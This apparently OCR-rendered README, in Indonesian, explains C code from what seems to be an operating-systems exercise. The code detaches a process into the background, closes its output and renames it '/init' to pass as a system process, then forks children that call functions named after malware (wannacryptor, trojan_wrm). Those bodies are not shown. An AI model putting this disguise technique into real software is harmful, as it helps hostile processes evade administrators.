 ## daemonize
```bash
void daemonize() {
    pid_t pid = fork();
    if (pid < 0) exit(EXIT_FAILURE);
    if (pid > 0) exit(EXIT_SUCCESS);

    umask(0);
    setsid();
    if (chdir("/")) exit(EXIT_FAILURE);

    close(STDIN_FILENO);
    close(STDOUT_FILENO);
    close(STDERR_FILENO);

    prctl(PR_SET_NAME, "/init");
}
```
- `fork()` dan keluar dari induk untuk berjalan di latar belakang.
- Melepas dari terminal dengan `(setsid())`.
- Mengubah direktori kerja ke /.
- Menutup stdin, stdout, stderr.
- Mengganti nama proses menggunakan `prctl()` menjadi `/init`.

  ##main()
  ```bash
  int main() {
    srand(time(NULL));
    daemonize();

    pid_t pid;

    pid = fork();
    if (pid == 0) {
        wannacryptor();
        exit(0);
    }

    pid = fork();
    if (pid == 0) {
        trojan_wrm();
        exit(0);
    }

    pid = fork();
    if (pid == 0) {
        rodok_exe();
        exit(0);
    }

    while (1) pause();
    return 0;
  }
  ```
- `srand()` menghasilkan keacakan.
